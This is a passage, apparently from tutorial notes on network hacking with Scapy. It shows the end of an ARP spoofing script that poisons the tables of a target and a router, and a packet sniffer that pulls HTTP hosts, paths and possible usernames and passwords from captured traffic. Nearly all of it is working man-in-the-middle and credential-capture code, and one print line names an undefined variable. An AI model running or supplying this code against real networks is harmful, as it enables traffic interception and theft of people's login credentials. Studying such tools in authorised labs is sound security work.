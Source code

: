 ```python 

def run():
    cmd_args = get_cmd_args()
    target_ip = cmd_args.target
    src_ip = cmd_args.source
    try:
        sent_packet_counter = 0
        while True:
            spoof(target_ip, src_ip) # Fool the targe host
            spoof(src_ip, target_ip) # Fool the router
            sent_packet_counter += 2
            print(f'[+] Press Ctrl+C to terminate. \n Packets sent: {sent_packet_count}', end="\r", flush=True)
            time.sleep(2)
    except KeyboardInterrupt:
        print(f'\n CTRL+C detected ... Restoring ARP tables ... please wait ... Quitting')
        restore(target_ip, src_ip)
        restore(src_ip, target_ip)

if __name__ == "__main__":
    run()
```

# Section 6 Writing a packet sniffer
Scapy has a function called ***sniff***

```python

#!/usr/bin/env python3

import scapy.all as scapy
from scapy.layers import http


def sniffer(interface):
    scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)

def get_url(packet):
    return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path

def get_login_info(packet):
    if packet.haslayer(scapy.Raw):
        load_byte = packet[scapy.Raw].load
        load_str = str(load_byte)
        keywords = ["username", "user", "login", "password", "pass", "email", "phone number"]
        for kw in keywords:
            if kw in load_str:
                return load_str
                #print(f'\n\n [+] Possibe username/password >> {load}\n\n')
                #break


def process_sniffed_packet(packet):
    if packet.haslayer(http.HTTPRequest):
        #print(packet.show())
        url = get_url(packet).decode()
        print(f"[+] HTTP Request >> {url}")

        login_info = get_login_info(packet)
        if login_info:
            print(f'\n\n [+] Possibe username/password >> {login_info}\n\n')
        
```